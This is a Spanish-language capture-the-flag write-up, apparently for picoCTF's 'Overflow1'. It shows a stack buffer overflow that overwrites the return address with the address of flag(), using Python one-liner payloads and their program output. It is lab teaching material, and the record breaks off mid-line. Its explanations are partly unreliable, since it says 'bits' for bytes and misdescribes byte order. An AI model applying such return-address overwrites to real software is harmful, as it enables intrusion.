 Overflow1
============
El ejercicio nos dice que debemos lograr direccionar el programa a la función flag()
Así mismo el archivo vuln.c nos muestra que tiene un buffer máximo de [64], Así que al sobrepasarlo obtendremos el overflow


Empecemos llenando el buffer.


    root@lanz$ python -c 'print "A"*65' | ./vuln
    Give me a string and lets see what happens: 
    Woah, were jumping to 0x8048705 !


Aún no pasa nada, ya que tenemos 8 bits que guarda en memoria, es como un repuesto.
Al sumar 8 (los bits) + 64 (el buffer)


    root@lanz$ python -c 'print "A"*72' | ./vuln
    Give me a string and lets see what happens: 
    Woah, were jumping to 0x8048705 !
    Violación de segmento


Ahora, lo que nos pide el ejercicio es lograr redireccionar a la función flag()
Así que obtendremos la dirección en memoria de la función y se la agregaremos a lo que ya tenemos, con eso lograremos que mantenga las "A"*72 y después de eso agregue la dirección de flag()


Con gdb, objdump, ida, etc... Con cualquiera podemos obtener la dirección.


```
gdb ./vuln
info functions
0x080485e6  flag
```


Como el computador lee las instrucciones de derecha a izquierda, debemos tomar la dirección (0x080485e6) y anotarla así mismo, de derecha a izquierda


    root@lanz$ python -c 'print "A"*72 + "\xe6\x85\x04\x08"' | ./vuln
    Give me a string and lets see what happens: 
    Woah, were jumping to 0x8048700 !
    Woah, were jumping to 0x8048705 !
    Violación de segmento


¿Por que habrá salido dos veces la instrucción?
(No lo sé, investigare y editare esto)


Así que aún no hemos llegado a la función flag


    Woah, were jumping to 0x8048700 !
    Woah, were jumping to 0x8048705 !


Si imprimimos "A"*73 vemos esto:


    root@lanz$ python -c 'print "A"*73 + "\xe6\x85\x04\x08"' | ./vuln
    Woah, were jumping to 0x8040008 !


Hemos cambiado el registro que direcciona!!


Al haber agregado 4 bits (el tamaño de la dirección de la función flag), entonces 72 + 4


    root@lanz$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
    Give me a string and lets see what happens: 
    Woah, were jumping to 0x80485e6 !
    Flag File is Missing. please contact an Admin if you are running this on the shell server.


Si lo corremos en la shell de picoCTF


    user@pico$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
    Give me a string and lets s
